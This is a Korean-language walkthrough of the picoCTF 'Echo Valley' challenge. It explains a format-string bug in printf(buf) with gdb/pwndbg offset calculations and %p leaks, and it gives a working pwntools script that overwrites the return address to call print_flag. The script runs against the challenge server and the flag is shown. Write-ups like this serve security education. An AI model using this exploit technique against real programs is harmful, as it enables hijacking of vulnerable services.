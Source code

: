 # [Echo Valley](https://play.picoctf.org/practice/challenge/485?category=6&originalEvent=74&page=1)
<br />

**Description:**
> The echo valley is a simple function that echoes back whatever you say to it.
But how do you make it respond with something more interesting, like a flag?
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }

    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}

int main()
{
    echo_valley();
    return 0;
}
```
<br />

**Binary Protections:**
```yaml
valley: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=389c2641f0d3caae81af5d21d9bb5bcf2de217f0, for GNU/Linux 3.2.0, with debug_info, not stripped

[*] '/home/kali/pico/valley'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```
<br />
<br />

제공되는 바이너리는 입력된 값을 출력해주는 단순한 구조를 가지고 있습니다. 그러나 `printf(buf)`를 사용하고 있어서 FSB 취약점이 발생합니다. 해당 문제를 풀이하기 위해서는 `RET` 주소를 `print_flag()`로 덮어 호출해야 합니다. 

먼저 `RET`을 덮어야 하므로, gdb를 통해 `RET`과 버퍼의 오프셋은 구합니다.
```yaml
pwndbg> b *echo_valley+76
pwndbg> r
 ► 0x555555555353 <echo_valley+76>    call   fgets@plt                   <fgets@plt>
        s: 0x7fffffffdff0 ◂— 0x40 /* '@' */
        n: 0x64
        stream: 0x7ffff7fab8e0 (_IO_2_1_stdin_) ◂— 0xfbad2088
pwndbg> ni
pwndbg> AAAAAAAA
pwndbg> x/20gx 0x7fffffffdff0
0x7fffffffdff0: 0x4141414141414141      0x000000000000000a
0x7fffffffe000: 0x0000000000010000      0x218c032900000000
0x7fffffffe010: 0x000000aa00000006      0x0000000000000000
0x7fffffffe020: 0x0000000000000000      0x0000000000000000
0x7fffffffe030: 0x0000000000000000      0x0000000000000000
0x7fffffffe040: 0x0000000000000000      0x0000000000000000
0x7fffffffe050: 0x0000000000000000      0x5b41cad1ed51ad00
0x7fffffffe060: 0x00007fffffffe070      0x0000555555555413
0x7fffffffe070: 0x0000000000000001      0x00007ffff7dedca8
0x7fffffffe080: 0x00007fffffffe170      0x0000555555555401

pwndbg> x/gx $rsp
0x7fffffffdff0: 0x4141414141414141
pwndbg> x/a 0x555555555413
0x555555555413 <main+18>:       0xc35d00000000b8
```
위 분석을 통해 버퍼의 시작주소가 `rsp`이고, 오프셋은 6 라는 것을 알 수 있습니다. 해당 정보로 `RET`의 오프셋을 구할 수 있습니다.

```yaml
pwndbg> p 0x7fffffffe068 - 0x7fffffffdff0
$1 = 120
pwndbg> p 120 / 8 + 6
$2 = 21
```
`RET`의 오프셋은 21 입니다.

```yaml
$ ./valley
Welcome to the Echo Valley, Try Shouting:
%21$p
You heard in the distance: 0x56509e762413
```
위에서 오프셋을 구했으니, 이번에는 `RET`의 값을 조작하기 위해 `RET`의 주소를 구하겠습니다.

```yaml
Welcome to the Echo Valley, Try Shouting:
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
You heard in the distance: 0x7fffffffde40.(nil).(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e70252e.(nil).(nil).(nil).(nil).(nil).0xa92feb16d8bee600.0x7fffffffe070.0x555555555413.
```
위 결과를 보면 가장 마지막 `0x555555555413`은 `RET`이고, 그 앞에 있는 주소 `0x7fffffffe070`가 `rbp` 입니다.

```yaml
pwndbg> telescope 20
...
... ↓                7 skipped
0d:0068│-008         0x7fffffffe058 ◂— 0x5c28d60fb3021e00
0e:0070│ rbp         0x7fffffffe060 —▸ 0x7fffffffe070 ◂— 1
0f:0078│+008         0x7fffffffe068 —▸ 0x555555555413 (main+18) ◂— mov eax, 0
10:0080│+010         0x7fffffffe070 ◂— 1
...
```
위 결과로 `0x7fffffffe070`은 `RET`에서부터 8만큼 떨어져 있음을 알 수 있습니다.

```yaml
pwndbg> p print_flag
$2 = {void ()} 0x555555555269 <print_flag>
pwndbg> p/x 0x555555555413 - 0x555555555269
$3 = 0x1aa
```
그리고 바이너리에는 PIE가 적용되어 있어서 `print_flag()`의 주소를 `main`의 주소를 가지고 오프셋을 따로 구해야 합니다. `print_flag()`의 오프셋은 `0x1aa` 입니다. 

위 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

# p = e.process("./valley")
p = remote("shape-facility.picoctf.net", 51424)

p.sendlineafter(b"\n", b"%20$p.%21$p")
p.recvuntil(b"You heard in the distance: ")

addr = p.recv().decode().strip().split(".")

RET = int(addr[0], 16) - 8
MAIN = int(addr[1], 16)
PFLAG = MAIN - 0x1aa

log.info(f"RET: {RET:#x}")
log.info(f"MAIN: {MAIN:#x}")
log.info(f"PFLAG: {PFLAG:#x}")

chunks = [
        PFLAG & 0xFFFF,
        (PFLAG >> 16) & 0xFFFF,
        (PFLAG >> 32) & 0xFFFF,
]

log.info(f"sending the first {hex(chunks[0])} bytes")
p.sendline(fmtstr_payload(6, {RET: chunks[0]}))
log.info(f"sending the second {hex(chunks[1])} bytes")
p.sendline(fmtstr_payload(6, {RET + 2: chunks[1]}))
log.info(f"sending the third {hex(chunks[2])} bytes")
p.sendline(fmtstr_payload(6, {RET + 4: chunks[2]}))

p.sendline(b"exit\n")
p.interactive()
```

```bash
$ python3 test.py
You heard in the distance:                                                                                                         \xc0                        \x00aa\xa8FO\xa7\xfe\x7f$                                                       You heard in the distance:                                                                                                                                      \xc0                                                  \x00aa\xaaFO\xa7\xfe\x7fYou heard in the distance:                                                                                                                                                                                                                        \xc0                                                                                                                                       \x00a\xacFO\xa7\xfe\x7fThe Valley Disappears
Congrats! Here is your flag: picoctf{f1ckl3_f0rmat_f1asc0}
$
```
